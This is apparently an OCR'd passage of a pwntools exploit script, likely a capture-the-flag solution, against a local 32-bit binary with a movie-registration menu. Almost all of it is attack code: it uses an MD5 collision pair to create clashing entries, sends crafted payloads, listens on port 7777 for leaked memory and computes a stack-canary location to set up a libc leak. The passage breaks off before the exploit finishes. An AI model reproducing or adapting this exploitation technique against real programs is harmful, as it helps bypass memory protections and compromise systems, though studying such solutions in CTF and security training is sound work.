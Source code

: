 ```
	p.sendline(str(category_num))
	p.recvuntil("> ")
	p.send(str(content_size))
	time.sleep(0.1)
	p.send(content)

def broad_movie(index,floor,room,channel):
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("> ")
	p.sendline(str(index))
	p.recvuntil("> ")
	p.sendline(str(floor)+"-"+str(room)+"-"+str(channel))

def list_movie():
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil("-\n")
	p.recvuntil("-\n")


p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")
leak_cha=listen(7777)

leak_cha.clean(0)

p.recvuntil("> ")

dir="hawe"+str(randint(0,100000))
p.send(dir)

#leak_libc
col_1="d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70"
col_2="d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70"

col_1=col_1.decode('hex')
col_2=col_2.decode('hex')

content1="hawe^_______________________________________^;;bawe^___________________________________________________________________________________________________________________________^"
content1+="A"*(0x300-len(content1))
content2="hawe;;bawe"

reg_movie(col_1,1,len(content1),content1)
reg_movie(col_2,1,len(content2),content2)

p.sendline("4")
p.close()

p=process(file_path)

p.recvuntil("> ")
p.send(dir)

broad_movie(1,19,150,7777)

leak_cha.recv(76)
canary_loc=u32(leak_cha.recv(4))+0x36c+0x80
```